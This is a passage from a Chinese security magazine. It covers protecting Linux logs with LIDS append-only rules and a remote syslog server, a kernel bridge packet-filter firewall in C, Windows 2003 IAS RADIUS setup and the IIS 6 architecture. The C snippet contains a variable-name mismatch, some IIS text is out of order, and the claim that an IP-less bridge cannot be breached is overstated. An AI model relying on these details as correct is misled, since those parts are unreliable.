网络安全的问题只有当所有的计算机用户安全意识都达到一定程度的时候才有可能得到明显改善，但从目前状况看来，大家还远远没有做到这一步，而且我们也不能完全依赖于等待全民安全意识水平的提高。目前可以做的，并且各国一直在努力做的，就是加快反垃圾邮件的立法，规范邮件提供商的服务。中国反垃圾邮件协会今年采取了一系列有力措施，包括两次公布垃圾邮件服务器黑名单，制定邮件服务规范，推动垃圾邮件立法等，这些虽不能完全遏制耦合垃圾邮件技术的病毒，但是有一定的制约效果。

## 打造“黑匣子”

### ——Linux 系统日志保护

刘流：对于攻击者来说，其最后要做的事情便是清除日志，悄然而去，做到来无影、去无踪，有时候甚至对日志作一番伪装，以达到故意误导对方网管的目的。而对于网管来说，其自然就是要尽可能地保证日志的完整。日志保护一直以来都是网管们头疼的问题，其也是信息安全领域一个非常值得研究的方向……

对突发事件进行应急响应时，调查分析日志占了很重要的地位。通常稍有经验的入侵者都会修改或删除日志，这样，日志中大部分有用的信息可能都没有了，这就给我们的调查工作带来了很大的麻烦。在某些情况下，如果运气好，可以通过 TCT 紧急修复工具或利用 Linux 文件系统本身的特性恢复一部分被删除的文件，或者从受害系统前端的路由器、防火墙、IDS 额外可用的日志中，我们才可以找到一点线索。但这种依赖性想法显然是不可靠的，我们需要系统本身更真实的日志报告。如何才能保护日志免遭篡改呢？本文将讨论几种可行的实现方法。

对于一般的系统，获取 root/ring0 权限就可以随意修改日志，我相信这对大多数攻击者而言并不是问题。在 Linux 尚未对此提供内核级的访问控制策略之前（在安全操作系统、Patch 过某些特殊内核补丁的系统上有此特性，估计未来的 2.6 标准内核会引入新的安全框架），我们只能够自己来动手做这件事。

## LIDS 保护日志文件和日志进程

LIDS 是 Linux 下的入侵检测和防护系统，是 Linux 内核的补丁和安全管理工具，它增强了内核的安全性，它在内核中实现了参考监护模式以及强制访问控制（Mandatory Access Control）模式。

### 1. LIDS 主要功能

**保护：** 保护硬盘上任何类型的重要文件和目录，如 /bin、/sbin、/usr/bin、/usr/sbin、/etc/rc.d 等目录和其下的文件，以及系统中的敏感文件，如 passwd 和 shadow 文件，防止未被授权者（包括 ROOT）和未被授权的程序进入，任何人包括 ROOT 都无法改变，文件可以隐藏。保护重要进程不被终止，任何人包括 root 也不能杀死进程，而且可以隐藏特定的进程。防止非法程序的 RAW IO 操作，保护硬盘，包括 MBR 保护等等。

**检测：** 集成在内核中的端口扫描器，LIDS 能检测到扫描并报告给系统管理员。LIDS 还可以检测到系统上任何违反规则的进程。

**响应：** 来自内核的安全警告，当有人违反规则时，LIDS 会在控制台显示警告信息，将非法的活动细节记录到受 LIDS 保护的系统 log 文件中。LIDS 还可以将 log 信息发到你的信箱中。LIDS 还可以马上关闭与用户的会话。

以上摘自 psef 的《LIDS 攻略》，原文见：http://www.xfocus.net/articles/200202/362.html。

### 2. 保护系统日志文件

我们把系统日志定义成只能追加的文件，这些文件只能以追加的模式打开，用户不能修改前面的部分。

用法：

```bash
lidsconf -A -o filename_to_protect -j APPEND
```

实例：

```bash
/sbin/lidsconf -A -o /var/log -j APPEND
/sbin/lidsconf -A -o /var/log/dmesg -j WRITE
/sbin/lidsconf -A -s /bin/login -o /var/log/wtmp -j WRITE
/sbin/lidsconf -A -s /bin/login -o /var/log/lastlog -j WRITE
/sbin/lidsconf -A -s /sbin/init -o /var/log/wtmp -j WRITE
/sbin/lidsconf -A -s /sbin/init -o /var/log/lastlog -j WRITE
/sbin/lidsconf -A -s /sbin/halt -o /var/log/wtmp -j WRITE
/sbin/lidsconf -A -s /sbin/halt -o /var/log/lastlog -j WRITE
/sbin/lidsconf -A -s /etc/rc.d/rc.sysinit -o /var/log/wtmp -j WRITE
/sbin/lidsconf -A -s /etc/rc.d/rc.sysinit -o /var/log/lastlog -j WRITE
/sbin/lidsconf -A -s /usr/sbin/httpd -o /var/log/httpd -j WRITE
```

### 3. 隐藏 syslogd 进程

```bash
lidsconf -A -S /sbin/syslogd -o CAP_HIDDEN -j GRANT
```

这样，ps 命令和 /proc 目录下都看不到。

## 构建独立的 Linux 日志服务器

我们利用 syslogd 守护进程的网络存储能力将日志远程备份到独立的日志服务器硬盘上，这样也起到了保护作用。这里作为日志存储对象的服务器只需要一台很廉价的 x86 PC 就能胜任，因为它不需要做起其他的事。

这台专用的日志服务器我们把它放在网络内部，使用私用网络 IP 与前端服务器的第二块网卡相连。把它暴露在外网上是愚蠢的做法。为了表达方便，我们把前端服务器称为客户端，日志服务器为服务端。

首先在客户端添加本地的名字解析：

```bash
假设客户端第二块网卡的 IP 为 192.168.0.1，
服务端 IP 为 192.168.0.2。
[root@ay43ro root]# echo "192.168.0.2 logserver" >> /etc/hosts
修改客户端配置文件 /etc/syslog.conf：
[root@ay43ro root]# vim /etc/syslog.conf
*.*    @logserver
```

以上告诉 syslogd 进程把所有日志发送到主机名为 logserver 的机器。

重启 syslogd 进程让配置更改生效：

```bash
[root@ay43ro root]# service syslog restart
```

更改服务端设置让服务端 syslogd 进程接受远程日志：

```bash
[root@ay43ro root]# ps aux | grep syslogd
root   230  0.0  0.5  1428  560 ?  S  18:29  0:00 syslogd -m 0
[root@ay43ro root]# kill -9 230
```

然后改变参数，重新启动 syslogd 进程让它接受远程数据：

```bash
[root@ay43ro root]# /sbin/syslogd -r -m 0
```

关于 syslogd 系统程序的更多参数及用法请参考 man 手册（man syslogd）。

接下来在客户端做一些动作查看服务端是否有对应记录以确保两者正常工作。

下面再看看防火墙规则（如果有的话）：客户端如果原来已经有很多规则的话，只需要允许从本机到 logserver 在 UDP 514 上流经第二块网卡的外出的包。

```bash
[root@ay43ro root]# iptables -A INPUT -i eth0 -p udp -s 192.168.0.1 -d 192.168.0.2 --dport 514 -j ACCEPT
```

服务端需要安全最大化，因此没有必要再运行其他的服务。

在有多个客户端而某个时刻数据流量大时可能会有轻微的数据损失，此外熟练的攻击者进入系统后发现 syslog 配置文件将日志重定向，可能会使用垃圾数据或其他的手段对 logserver 进行 D.o.S 攻击致使服务端的 syslogd 进程当掉，但是他无法抹除先前留下的日志。

广大的搞机族，不知有没有好的对策呢？

将日志重新定送到其他机器的确是一种比较好的方法，不过前提是日志服务器的安全应该得到保障。在众多日志保护中，也有将日志写入到一次性磁介质中的，不过开销比较大。但不管采用哪种方法，其都是为了保证日志不可被修改。如果您有什么新颖有效的日志保护方法，不妨来稿与大家多加交流。

刘流：Linux 在很多关键性部门起着相当重要的作用，如何使你的 Linux 起到编程包过滤的功能呢？如何充分发挥 Linux 的关键性作用呢？相信喜欢 Linux 的朋友们不会错过这篇文章。

- 难度等级：高
- 前置知识：Linux 使用技巧，包过滤的基本含义，Socket 套接字编程

## 在 Linux 上实现包过滤防火墙

文／图 吴具植

### Linux 内核网络接口分析


Linux 操作系统的实现起源于 BSD UNIX 发展的 Berkeley 套接字 API 工业标准，它把 Internet 协议的地址族实现为一系列联接起来的软件层，其网络接口的实现如图 1 所示。

其中，BSD 套接字只能由与其相关的套接字管理软件支持，INet 套接字层支持套接字管理，它管理的通信端点的 IP 是基于 TCP 和 UDP 协议的。UDP 是一个无联接协议，而 TCP 是一个可靠的面向联接的协议。当发送 UDP 包时，Linux 既不知道也不关心它们是否安全地到达了它们的目的地。TCP 是有联接的，TCP 联接的发送端都要确保发送的数据被正确地接收。IP 层包括实现 Internet 协议的代码，这个代码命令 IP 层发送数据。在 IP 层的下面，由网络设备来支持所有的 Linux 网络，例如 PPP 和以太网。

网络协议分许多层的一个问题是：每一层都使用其他层的服务，即每个协议需要在发送数据时给数据加协议的头和尾，在接受数据时去掉协议的头和尾。这样就使在协议间传送数据缓冲困难，因为每一层需要发现它自己协议头和尾的位置。一个解决的办法是在每一层都拷贝缓存，但是那样做效率就比较低。Linux 使用套接字缓冲和 sk_buff 在协议层和网络设备间传递数据，sk_buff 的结构如图 2 所示。


对 sk_buff 的操作代码为向协议数据添加和去掉协议头尾提供了标准机制。

## 系统模块划分

透明包过滤系统防火墙的主要功能是对接收到的以太网帧进行分析，根据过滤规则来处理封装在以太网帧内的 IP 数据包。在实现系统时，我们主要使用 Linux 操作系统内核中定义好的数据结构，这样就可以避免大的内核改动。根据系统功能将系统划分为以下模块：以太网帧接收模块、以太网帧处理模块、包过滤模块、帧发送模块和 MAC 地址缓存模块，各模块的功能如下：

帧接收模块。完成以太网桥接收以太网帧的功能，将数据封装在标准的数据结构 sk_buff 中，并对网络接口中的各项参数赋初始值。

帧处理模块。从以太网帧中提取协议信息，并判断是否是 IP 数据包，如果是，将提交给包过滤检测系统进行处理。

包过滤检测模块。完成系统对 IP 包过滤功能，主要是将 IP 包中各种信息和过滤规则表进行匹配。

帧发送模块。将要发送的以太网帧从网络接口发送到网络上。

MAC 地址缓存模块。主要是对交换的 MAC 地址保存，是一种以太网桥生成树算法的实现。


各模块间的工作示意如图 3 所示。

在这 5 个功能模块中，有些在 Linux 系统中已经实现，我们只需分析清楚它们的功能接口并把它们加入到我们的系统中。而帧处理模块、包过滤检测模块才是本系统实现的关键，需要开发并实现它们的所有功能。

## 防火墙过滤规则表实现

包过滤是一个网络安全保护机制，它用来控制流出和流入网络的数据。在向目标转发数据包的过程中，本系统要查看数据包的目的地址并且决定如何转发这个数据包，同时还考虑是否应该转交这个数据包，因此，本系统的包过滤将基于以下报头内容控制数据包的转发：

- 数据包的源和目的网络地址（或范围）
- 数据包的源和目的地址（或范围）
- 数据包的源和目的端口（或范围）
- 用来传送数据包的协议

根据 IP 数据包的源和目的网络地址进行判断可以用来限制网络级别的访问控制，规定网络对子网的控制策略；根据 IP 数据包的源和目的地址进行判断可以用来限制主机级别的访问控制，对特定流向或地址的流量进行过滤，屏蔽来自特定地址主机的访问；对于端口地址的过滤，可以提供高层协议详细内容的过滤，如可以单独对 23 端口的 Telnet 服务过滤，而开放其他端口的服务；对协议过滤主要是考虑 IP 包可以封装的数据有 TCP、UDP、ICMP 等不同协议的数据。

对过滤规则的定义不仅要考虑到我们的过滤策略，而且需要考虑到和 Linux 操作系统内核的要求，所以我们对此项数据结构的定义参照 Linux 内核中的数据结构进行了定义，有些变量在过滤表中不会用到，但仍然定义了它，以保证和 Linux 的有效结合。具体的过滤规则结构如下：

```c
struct ip_fw
{
    struct ip_fw *fw_next;         // 下一条规则
    struct in_addr fw_src, fw_dst; // 源、目的 IP 地址
    struct in_addr fw_smsk, fw_dmsk; // 源、目的地址掩码
    struct in_addr fw_via;         // 网络接口
    struct device *fw_viadev;      // 设备接口
    unsigned short fw_flg;         // 标志字段
    unsigned short fw_nsp, fw_ndp; // 源、目的端口
    unsigned short fw_pts[10];     // 端口队列
    unsigned long fw_pcnt, fw_bcnt; // 包数和字节数
    unsigned char fw_tosand, fw_tosxor; // 修改的包权限
    char fw_vianame[IFNAMSIZ];     // 网络接口名字
};
```

过滤规则表定义为：`ip_fw *ip_fw_fwd`

本系统将所有的过滤规则表保存在内存区域中，整个过滤规则表由一个单链表组成，对过滤规则的增加、删除、修改等操作也就是对此链表的增删改等操作。链表中每个数据的内容就是一条过滤规则。

定义了最基本的过滤规则内容和过滤规则表的操作方式，下一步将考虑过滤操作的过程。在过滤中需要注意一些细节问题，我们知道，也许 IP 报文中封装的数据可能是经过分片的数据，这样的话我们就不能够提取高层协议的信息了，如 TCP、UDP 的端口号，这时候我们的处理原则是将这样的包一律通过，额外的检查是没有作用的。如果采用一律丢弃的方法可能会把允许通过的包也丢弃掉了，因为过滤规则的判断条件不只是 IP 地址而且还有高层协议的端口号。采用一律通过对系统的过滤功能是不会有影响的，因为如果到达接收端的数据被禁止了，则带有高层协议报文的那个 IP 包一定会被丢弃，所以接收端接收到其他报文后不能够正确重组也会将其丢弃，同样会达到过滤的效果。

在实际的使用中，管理员可以根据本单位的实际情况和保护策略来制定自己的过滤规则，过滤规则表就随环境和政策的不同而设定。

根据过滤规则表，系统可以判断是否让一个数据报通过防火墙。当判断一个 IP 包不能通过防火墙时，系统采取两种手段来对此包作处理，一种是仅仅将其丢弃而不做任何处理，这种过滤手段称为否认（Deny）；一种是在将报文丢弃的同时，向发送主机发送 ICMP 的主机不可到达报文，通知发送主机不能访问，这种方法称为拒绝（Reject）。这两种过滤方法的不同之处主要是针对发送主机是否能感觉到它发送的 IP 包已被拒绝。

在许多网关（路由器）中使用的过滤规则中，他们还要使用网络接口来作为过滤依据，这一点主要是为了判断是否接收的数据是发送给本机的，或要发送的数据是否是本机发送的。在本系统中，我们可以把它配置成无 IP 的，所以不会有发送给它本身的数据报，也不会向外发送数据报，它只是对接收到的数据进行转发，所以本系统的过滤规则表不用网络接口作为过滤规则，相对简化过滤规则，但可以完成相同的功能。

## 透明桥上的过滤实现

当系统接收到以太网帧的时候，它首先要判断此以太网帧内传送的数据是哪种高层协议的数据，然后将 IP 数据包的内容交由过滤规则模块实现。以太网桥的帧接收模块已经将接收的帧封装在统一的数据结构 sk_buff 中，我们对此数据结构进行处理就可以得到所有想要的信息，如果判断出以太网帧中封装的是 IP 包，我们没必要再开辟新的空间来保存 IP 包，直接用指针移动来指到 IP 包头就可以了，这样做可以加快系统的处理速度，系统的所有检查都是通过指针移动来实现的，而没有必要使用新的内存空间来保存 IP 包的数据。对于允许通过的包，系统将进行转发；如果不允许通过，系统将释放其缓存区，丢弃报文。

Linux 系统网桥实现的源代码在 `/USR/SRC/Linux/Net/Bridge` 下，其中 `br.c` 是网桥实现的主程序，我们对其中的内容进行修改。根据分析知道，网桥系统将会把所有的帧进行转发，想实现包过滤系统需要在转发以太网帧之前对报文进行过滤，所以我们加入的程序为帧检测模块，处理过程如下：

```c
int br_check_frame(struct sk_buff *skb)
// 以太网帧处理模块，返回 1 时表示可以通过，返回 0 时表示不能通过。
// 函数传入参数为以太网帧数据
{
    // 下面是系统模块需要用到的变量
    struct device *dev;   // 此报文使用的网络接口
    int fwres = 0;        // 过滤模块返回的值
    int Canpass = 1;      // 默认过滤策略为通过
    struct iphdr *iph;    // IP 报文头结构
```

```c
struct ethhdr *eth;    // 以太网帧头结构
int offset;            // 指针移动偏移量
// 下面的过程将 IP 包从以太网帧中分离出来
eth = (struct ethhdr *)skb->data;    // 从数据帧中提取以太网帧头数据
if (eth->h_proto == ETH_P_IP)        // 判断此帧传送数据是否为 IP 数据
{
    // 如果是 IP 包，则需要进行过滤，下面将从以太网帧中提取 IP 包；
    // 如果不是 IP 包，系统将不会做任何处理继续下一步工作，也就是
    // 将此数据包转发，保证了 IPX 等协议可以不受限制地转发
    offset = ETH_HLEN;               // 指针偏移量为以太网帧头长度
    iph = (struct iphdr *)(skb->data + offset);
    // 从以太网数据区域内提取 IP 报头信息
    dev = skb->dev;                  // 从数据结构中提取本帧数据使用的接口信息
    fwres = call_fw_firewall(PF_INET, dev, iph, NULL);
    // 调用过滤分析模块并将比较结果返回
    switch (fwres)
    {
    case FW_ACCEPT:
        canpass = 1;
        break;
    case FW_REJECT:
    case FW_BLOCK:
        canpass = 0;
        break;
    default:
        canpass = 1;
        break;
    }
    // 过滤分析的结果处理，分别对允许通过标志变量进行赋值
    // 提供给系统作下一步判断
}
return(canpass);
// 将是否允许通过的标志变量的值返回给转发模块，由转发模块对此数据进行转发或丢弃
```

修改内核将过滤规则加入之后，需要将系统配置成一个透明桥系统，并使它工作。网卡的工作状态有正常模式、调试模式和全混模式 3 种，当它工作在正常模式中的时候，它只将目的 MAC 地址是自己的包提交给上层协议处理，对接收到包的判断由网卡的驱动程序来完成。在系统内核中的处理程序只能处理网卡送交的数据，而其他两种模式下，网卡驱动程序将会把所有接收的数据包全部提交给上层协议处理，也就是说交给内核处理。我们的系统作为一个过滤防火墙，一定要接收所有的包来进行分析。所以，首先要将网卡的模式修改为调试或全混模式，网卡工作在调试状态下的时候，自身会对接收到的包进行一些处理，增加额外的代价，这是我们不希望的，我们设定网卡工作在全混模式下，使用如下命令：

```bash
ifconfig eth0 promisc
ifconfig eth1 promisc
```

这样网卡就可以接收所有的数据包了，对于网络接口的设定，为达到一种无 IP 地址的状态，我们统一将两个网络接口的地址设定为 127.0.0.1。

### 系统性能分析

### 安全性能分析

由于系统不具备 IP 地址，所以能够很好地抵御来自各方面的入侵活动，使那些黑客根本无法破坏我们的系统，大大提高了 Linux 系统的安全性。

### 网络性能分析

本系统工作在数据链路层，它将比运行在网络层的防火墙有更高的交换速率，使网络具有更高的性能。

### 系统性能分析

包过滤防火墙系统在网络中起着网桥的作用，其运行机制和以太网桥基本一致，包过滤操作也仅仅是对数据指针的移动并做比较的操作，对系统的性能没有影响。普通用户根本感觉不到系统的存在，对他们是真正的透明。

> **编辑语：**
>
> 文中作者以简练而深刻的语言告诉我们用 Linux 实现包过滤的一种基础机制和原理。很多朋友对 Linux 的了解不是很多，但我们可以举一反三，通过 Linux 来创建 Windows 下面的包过滤程序。希望有此经验的朋友可以给我们发来稿件、脚本，小子等着你的大作。

## 让你的 Windows 2003 IAS 服务动起来

刘流：Internet 验证服务（IAS）在远程身份验证中占据了重要的位置，它能在信息交互情况下进行身份验证，同时也可以用于网络负载平衡，是非常不错的网络安全服务。本文对 Windows 2003 中的 Internet 验证服务（IAS）进行了比较详细的介绍，并手把手教你进行相关配置，对广大读者绝对是个优秀的教程，一起来吧……

文／单长虹

Windows 2003 中的 Internet 验证服务（IAS）是远程身份验证拨入用户服务（RADIUS，Remote Authentication Dial-In User Service）服务器和代理的 Microsoft 实现。作为 RADIUS 服务器，IAS 执行多种类型网络访问的集中式连接身份验证、授权和记账，其中包括无线、身份验证交换机、拨号和虚拟专用网（VPN）远程访问以及路由器对路由器连接。

Internet 验证服务可用作 RADIUS 服务器，以便执行 RADIUS 客户端的身份验证、授权和记账，也可以用作 RADIUS 代理，将验证信息发往 RADIUS 服务器进行集中验证。

当将 IAS 用作 RADIUS 服务器时，它提供以下功能：

- 1. RADIUS 客户端发送的所有“访问-请求”的集中的身份验证和授权服务。
- 2. IAS 使用 Microsoft Windows NT Server 4.0 域、Active Directory 域或本地安全账户管理器（SAM）对连接尝试的用户凭据进行身份验证。IAS 使用用户账户和远程访问策略的拨入属性对连接进行授权。
- 3. RADIUS 客户端发送的所有记账请求的集中的记账记录服务。
- 4. 记账请求存储在本地日志文件中以便进行分析。

图 1 显示了作为各种访问客户端的 RADIUS 服务器和 RADIUS 代理的 IAS。IAS 使用 Active Directory 域，对传入的 RADIUS“访问-请求”消息的用户凭据进行身份验证。


图 1

当 IAS 用作 RADIUS 服务器时，工作过程如下：

访问服务器接收来自访问客户端的连接请求。被配置为使用 RADIUS 作为身份验证、授权和记账协议的访问服务器，创建“访问-请求”消息，并将其发送到 IAS 服务器。IAS 服务器对“访问-请求”消息进行评估。如果需要，IAS 服务器将向访问服务器发送“访问-质询”消息。访问服务器处理质询，并向 IAS 服务器发送更新的“访问-请求”。通过使用与域控制器的安全连接，可以检查用户凭据，获得用户账户的拨入属性。使用用户账户的拨入属性和远程访问策略对连接尝试进行授权。如果已对连接尝试进行身份验证和授权，那么 IAS 服务器将向访问服务器发送“访问-接受”消息。如果未对连接尝试进行身份验证或授权，那么 IAS 服务器将向访问服务器发送“访问-拒绝”消息。访问服务器完成与访问客户端的连接处理，并向消息登录的 IAS 服务器发送“记账-请求”消息。IAS 服务器向访问服务器发送“记账-响应”。

我们可以在遇到以下情况时将 IAS 用作 RADIUS 服务器：

- 1. 将 Windows 2003 Active Directory 域或本地安全账户管理器（SAM）用作访问客户端的用户账户数据库。
- 2. 在多个拨号服务器、VPN 服务器或请求拨号路由器上使用 Windows 2003 路由和远程访问服务，并且想要集中远程访问策略的配置和记账的连接日志记录。
- 3. 将拨入、VPN 或无线访问外包给服务提供商。访问服务器使用 RADIUS 对组织成员建立的连接进行身份验证和授权。
- 4. 希望对异类的访问服务器进行集中式身份验证、授权和记账。

我们来看一下如何配置 RADIUS 服务器。打开 IAS，如图 2 所示，在 RADIUS 客户端上点击右键，新建一个客户端，在弹出的对话框中，按照向导提示，走到如图 3 所示的页面。然后，我们必须重新建“连接请求策略”，在向导页面中作出的选择如图 4 所示。


然后，我们来看一下作为 RADIUS 代理的 IAS 的工作原理。

Internet 验证服务（IAS）可以用作 RADIUS 代理，以便提供 RADIUS 客户端（访问服务器）和 RADIUS 服务器之间的 RADIUS 消息路由，RADIUS 服务器为连接尝试执行用户身份验证、授权和记账。用作 RADIUS 代理时，IAS 是 RADIUS 访问消息和记账消息流经的中心切换点或路由点。IAS 在记账日志中记录有关转发消息的信息。

图 5 显示了作为 RADIUS 客户端（访问服务器）和 RADIUS 服务器（或另一个 RADIUS 代理）之间的 RADIUS 代理的 IAS。

当 IAS 用作 RADIUS 客户端和 RADIUS 服务器之间的 RADIUS 代理时，工作过程如下：

访问服务器接收来自访问客户端的连接请求。被配置为将 RADIUS 用作身份验证、授权和记账协议的访问服务器，创建“访问-请求”消息，并将其发送到正被用作 IAS RADIUS 代理的 IAS 服务器。IAS RADIUS 代理接收“访问-请求”消息，并基于本地配置的连接请求策略确定将“访问-请求”消息转发到哪里。IAS RADIUS 代理将“访问-请求”消息转发到相应的 RADIUS 服务器。RADIUS 服务器对“访问-请求”消息进行评估。如果需要，RADIUS 服务器将向 IAS RADIUS 代理发送“访问-质询”消息，在此处，此消息将被转发到访问服务器。访问服务器通过访问客户端处理质询，并向 IAS RADIUS 代理发送更新的“访问-请求”，在此处，该请求将被转发到 RADIUS 服务器。RADIUS 服务器对连接尝试进行身份验证和授权。如果它对连接尝试进行身份验证和授权，RADIUS 服务器将向 IAS RADIUS 代理发送“访问-接受”消息，在此处，该消息将被转发到访问服务器。如果未对连接尝试进行身份验证或授权，RADIUS 服务器将向 IAS RADIUS 代理发送“访问-拒绝”消息，在此处，该消息将被转发到访问服务器。访问服务器完成与访问客户端的连接进程，并向 IAS RADIUS 代理发送“记账-请求”消息。IAS RADIUS 代理记录记账数据，并向 RADIUS 服务器转发此消息。RADIUS 服务器向 IAS RADIUS 代理发送“记账-响应”消息，在此处，此响应将被转发到访问服务器。

向导中的接下来的对话框中做如图 7 所示的设置。


可以在以下情况下将 IAS 用作 RADIUS 代理：

- 1. 你的网络访问服务器向 IAS RADIUS 代理发送连接请求。基于连接请求中用户名的领域部分，IAS RADIUS 代理向由客户维护并可以对连接尝试进行身份验证和授权的 RADIUS 服务器转发连接请求。
- 2. 你希望为不是以下域中成员的用户账户提供身份验证和授权：IAS 服务器是其成员的域，或与 IAS 服务器是其成员的域具有双向信任关系的其他域。
- 3. 你希望通过使用不是 Windows 账户数据库的数据库执行身份验证和授权。
- 4. 你希望处理大量连接请求。
- 5. 你希望为外包服务提供商提供 RADIUS 身份验证和授权，并尽量减少 Intranet 防火墙配置。

下面我们来看一下如何设置 RADIUS 代理。先来创建一个新的远程 RADIUS 服务器组，如图 6 所示。然后再来新建一个“连接请求策略”，在向导中的接下来的对话框中做如图 7 所示的设置。

最后，来看一下 IAS 和防火墙。在大多数配置中，防火墙连接至 Internet，而 IAS 服务器则是另一个连接至外围网络的 Intranet 资源。

要访问 Intranet 内的域控制器，IAS 服务器需要具有：

- 1. 外围网络上的接口和 Intranet 上的接口（未启用 IP 路由）。
- 2. 外围网络上的单个接口。在此配置中，IAS 通过将外围网络连接至 Intranet 的另一个防火墙与 Intranet 域控制器进行通信。

结构如图 8 所示。


图 8

## 结束语

到这里，本文已经比较详细地介绍了 IAS 服务，其实 IAS 是一个很重要的服务，但是由于我们通常所处的网络比较小，很难用到这样的服务，往往没有引起人们足够的重视。它不仅可以进行安全验证，还可以对验证进行网络负载平衡，刚才我们说到的 RADIUS 代理，其本质就是 IAS 充当了一个网络负载平衡的服务器。

## IIS5.0 到 IIS6.0

### 选“巨人”的一跳

刘流：说起当今被应用的 Web 服务器，许多人自然会想到 Microsoft 公司的 IIS 了，但是 NT 时代的 IIS 4，它的功能实在太弱了，而 Windows 2000 时代的 IIS 5，在应用性、安全性、实用性方面是比前辈 IIS 4 有了显著的增强，但是 IIS 5 仍然和 IIS 4 一样，仍然是 Windows 系统漏洞大户，许多看起来似乎“固若金汤”的服务器系统，往往最后都是由 IIS 导致城门失守。大家一定对红码、蓝码等病毒及 IIS 巨多的漏洞还有所印象吧？现在 IIS 6 已经随着 Windows 2003 的诞生降临到世界上了，那么我们来看看 IIS 6 和它的前辈相比有了什么质的飞跃——

文／图 朱宏志

微软在劝说你升级到 Windows Server 2003 时，会列举 N 个理由，其中一个相当有分量的理由就是 IIS 6。为什么说 IIS 6 是你升级到 Windows Server 2003 的一个重要理由呢？这是因为相对于 IIS 5 来说，IIS 6 在安全性和可靠性方面得到了本质上的提升，因为 IIS 6 采用了全新的架构，对 IIS 5 来了个大变革。到底 IIS 6 变在哪里、又好在哪里？首先看看下面的两张图，图 1 是 IIS 5 的架构和运行图，图 2 则是 IIS 6 的架构和运行图，比较一下二者以得到一个初步的印象，下面将结合这两幅图来深入认识 IIS 6。

从图 1 可以看出，以前的 IIS 5 就一个 Inetinfo 进程忙里忙外（除了应用程序运行在中、高保护模式下时），而从图 2 又可以发现，现在的 IIS 6 已经架空了 Inetinfo 进程的“实权”。在 IIS 6 中，Inetinfo 进程只负责 FTP、SMTP、NNTP 和 IIS Metabase 等与核心 Web 服务关系不大的工作，而以前由它负责的“实权”工作现在已经花落其他几个新组件：http.sys、WWW 服务管理和监视组件（svchost.exe）、应用程序池及工作进程（w3wp.exe）。其中的 http.sys 工作于内核模式，负责接收和回应客户端的 Web 请求，而 WWW 服务管理和监视组件接管了服务配置和进程管理的工作，工作进程则运行在用户模式下，负责处理访问请求。下面详细地说说这新三大件。

### 全新的架构

从图 1 可以看出，以前的 IIS 5 就一个 Inetinfo 进程忙里忙外。


图 1


图 2

大大减少了这种模式转换的数量。为什么说大大减少了转换数量呢？这是得益于 http.sys 缓存，它允许 HTTP 应用程序完全在内核模式（而不转换到用户模式）下缓存静态数据并为缓存的 HTTP 请求提供服务，对于此缓存中已有的静态内容或未改变的内容，它将直接传送给请求者，而用不着再把请求路由到用户模式下的工作进程。

把 http.sys 做成内核模式还有一个好处就是它不会受应用程序的影响，比如某个应用程序失败也不会影响它监听 HTTP 请求。除了上面的功能外，http.sys 还有下面的重要功能：

- 1. 行使了 IIS 5 工具 URLScan 的大部分功能，所以对于 IIS 6 来说，URLScan 显得不是非常必要，当然 URLScan 也有一些额外的特性，所以你也可以在 IIS 6 上安装它。
- 2. 管理 TCP 连接，维护请求队列，把请求路由到正确的工作进程。
- 3. 执行所有基于文本的 WWW 服务日志记录。
- 4. 实现“服务质量”（QoS）功能，其中包括连接限制、连接超时、队列长度限制和带宽限制。

### 1．http.sys

http.sys 算是 IIS 6 的头号功臣。在 IIS 5 中，当有一个 Web 请求到达 Web 服务器时，处于操作系统内核模式的 TCP/IP 协议组件（tcpip.sys）把这个请求传送给用户模式下的 winsock driver，然后再由它把请求传送给 IIS（Inetinfo）进程进行处理，这样在内核模式和用户模式之间就会有大量的切换操作，影响到了响应速度和负载总量。于是 IIS 6 就专门把接收 Web 请求这部分工作独立出来，并做了一个专门的 HTTP 内核驱动来进行处理，由 http.sys 接收用户请求并把请求路由到相关的工作进程（w3wp.exe）。虽然这仍然需要在内核模式与用户模式之间进行切换，但请求传递的环节减少了，而且它还大大减少了这种模式转换的数量。

### 2．工作进程和应用程序池

前面也提到了工作进程，在 IIS 6 中它表现为 w3wp.exe，它替代了原 Inetinfo 进程处理 Web 请求的工作，但它现在更安全也更稳定了，因为它是作为 Network Service 运行的（非 IIS 5 的 Local System），这是一个低权限账户，这也降低了潜在的缓冲区溢出漏洞的威胁。从图 2 可以看出，工作进程从 http.sys 接收传送来的 Web 请求，它也把响应返回给 http.sys，它的一般工作包括处理请求以及返回静态页面、调用 Internet 服务器 API（ISAPI）扩展或筛选器，或运行通用网关接口（CGI）处理程序。

与工作进程紧密相关的一个新功能就是应用程序池。一个应用程序池是一个具有名字的一个或多个工作进程的集合，一个应用程序池可以应用到一个或多个站点上，你也可以为某个应用程序选择特定的应用程序池以达到隔离应用程序的目的。在这里要讲讲 IIS 中“应用程序”的概念，它与我们平常所说的应用程序概念不同，默认情况下，一个 Web 站点就是一个应用程序，当您创建一个网站时，同时会创建一个默认应用程序，你也可以右击某个站点或虚拟目录来创建新的应用程序。

正是由于 IIS 6 只有了工作进程，而没有了 IIS 5 的进程内运行和进程外运行的概念，所以在 IIS 6 中就有了两种运行模式，一种是工作进程隔离模式，另一种就是 IIS 5.0 隔离模式。工作进程隔离模式是默认模式，即服务器在全新安装中运行的模式。对于那些为旧版本 IIS 开发的应用程序，如果确认其与工作进程隔离模式不兼容，则可以使用 IIS 5.0 隔离模式来运行，这是一种为了兼容性的模式。当你发现你的应用程序在 IIS 6 默认模式下不能正常运行时，你就应该考虑把它运行于 IIS 5.0 隔离模式下了。虽然是 IIS 5 隔离模式，但它仍然能够享受到 IIS 6 新架构所带来的性能增强，比如它仍然使用 http.sys。

由于默认情况下 IIS 6 运行于工作进程隔离模式下，所以一个工作进程失败之后也不会影响到另外的工作进程。那 IIS 6 又是怎样来处理这种失败的或有其他问题的工作进程的呢？这就要看第三个组件 WWW 服务管理和监视组件了。

### 3．WWW 服务管理和监视组件

WWW 服务管理和监视是“万维网发布服务”（w3svc 服务）的新组件，在 IIS 5 中由 Inetinfo 负责。它在非共享的 svchost.exe 下运行，账户是 Local System，处于用户模式下。在 IIS 6 启动时，它读取 metabase 信息，配置并创建工作进程，初始化 http.sys 的路由信息（这里的路由意思是怎样把接收到的客户请求传送到正确的工作进程的意思）。当 IIS 6 运行时，它主要进行监视工作进程的工作，它将根据应用程序池的属性设置来处理工作进程，比如重启、回收工作进程。

